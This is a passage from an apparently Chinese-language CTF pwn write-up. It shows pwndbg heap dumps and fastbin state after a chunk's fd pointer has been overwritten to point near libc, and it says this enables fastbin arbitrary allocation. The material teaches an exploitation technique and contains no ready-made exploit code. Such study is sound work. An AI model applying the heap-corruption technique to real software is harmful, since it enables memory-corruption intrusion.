 ```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000: 0x0000000000000000  0x0000000000000021 #index0
0x555555757010: 0x6161616161616161  0x6161616161616161
------------------------------------------------------------------------
0x555555757020: 0x6161616161616161  0x0000000000000071 #index1
0x555555757030: 0x0000000000000000  0x0000000000000000
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090:	0x0000000000000000	0x0000000000000071 #index2:free（index5：malloc)
0x5555557570a0:	0x00007ffff7dd1aed	0x6262626262626262
0x5555557570b0:	0x6262626262626262	0x6262626262626262
0x5555557570c0:	0x6262626262626262	0x6262626262626262
0x5555557570d0:	0x6262626262626262	0x6262626262626262
0x5555557570e0:	0x6262626262626262	0x6262626262626262
0x5555557570f0:	0x6262626262626262	0x6262626262626262
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100: 0x0000000000000000  0x0000000000000071 #index3
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170: 0x0000000000000000  0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0: 0x0000000000000000  0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220: 0x0000000000000000  0x0000000000000000
------------------------------------------------------------------------
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757090 ◂— 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg>
```

修改fd指针之后就可以利用fastbin进行**Arbitrary Alloc了，但是还有困难等着我们，下一小节再说。**

> **<font style="color:#F5222D;">做pwn一定要注重细节，不能放过每一行C语言代码，否则会被坑的很惨。</font>**
>

